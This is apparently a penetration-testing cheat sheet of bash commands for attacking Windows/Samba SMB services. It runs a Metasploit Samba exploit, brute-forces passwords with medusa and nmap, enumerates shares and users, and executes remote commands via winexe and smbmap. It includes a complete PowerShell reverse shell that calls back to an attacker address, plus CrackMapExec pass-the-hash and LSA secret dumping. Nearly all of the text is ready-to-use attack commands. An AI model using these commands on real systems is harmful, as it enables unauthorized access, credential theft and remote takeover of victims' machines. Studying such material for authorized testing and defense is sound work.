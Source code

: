 ```bash
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln 
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

# CrackMapExec
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local
crackmapexec smb 10.55.100.0/23 -u LA-ITAdmin -H 573f6308519b3df23d9ae2137f549b15 --local --lsa

```